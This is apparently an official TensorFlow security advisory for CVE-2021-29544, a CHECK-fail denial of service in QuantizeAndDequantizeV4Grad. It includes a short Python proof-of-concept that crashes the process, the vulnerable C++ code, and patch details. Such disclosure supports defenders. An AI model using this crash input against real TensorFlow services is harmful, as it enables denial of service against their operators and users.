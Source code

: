 ## TFSA-2021-031: `CHECK`-fail in `QuantizeAndDequantizeV4Grad`

### CVE Number
CVE-2021-29544

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.QuantizeAndDequantizeV4Grad`:

```python
import tensorflow as tf

gradient_tensor = tf.constant([0.0], shape=[1])
input_tensor = tf.constant([0.0], shape=[1])
input_min = tf.constant([[0.0]], shape=[1, 1])
input_max = tf.constant([[0.0]], shape=[1, 1])

tf.raw_ops.QuantizeAndDequantizeV4Grad(
  gradients=gradient_tensor, input=input_tensor,
  input_min=input_min, input_max=input_max, axis=0)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/95078c145b5a7a43ee046144005f733092756ab5/tensorflow/core/kernels/quantize_and_dequantize_op.cc#L162-L163)
does not validate the rank of the `input_*` tensors. In turn, this results in
the tensors being passes as they are to
[`QuantizeAndDequantizePerChannelGradientImpl`](https://github.com/tensorflow/tensorflow/blob/95078c145b5a7a43ee046144005f733092756ab5/tensorflow/core/kernels/quantize_and_dequantize_op.h#L295-L306):

```cc
template <typename Device, typename T>
struct QuantizeAndDequantizePerChannelGradientImpl {
  static void Compute(const Device& d,
                      typename TTypes<T, 3>::ConstTensor gradient,
                      typename TTypes<T, 3>::ConstTensor input,
                      const Tensor* input_min_tensor,
                      const Tensor* input_max_tensor,
                      typename TTypes<T, 3>::Tensor input_backprop,
                      typename TTypes<T>::Flat input_min_backprop,
                      typename TTypes<T>::Flat input_max_backprop) {
    ...
    auto input_min = input_min_tensor->vec<T>();
    auto input_max = input_max_tensor->vec<T>();
    ...
}
```

However, the `vec<T>` method, requires the rank to 1 and triggers a `CHECK`
failure otherwise.

### Patches
We have patched the issue in GitHub commit
[20431e9044cf2ad3c0323c34888b192f3289af6b](https://github.com/tensorflow/tensorflow/commit/20431e9044cf2ad3c0323c34888b192f3289af6b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2 as this is the only other affected version.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
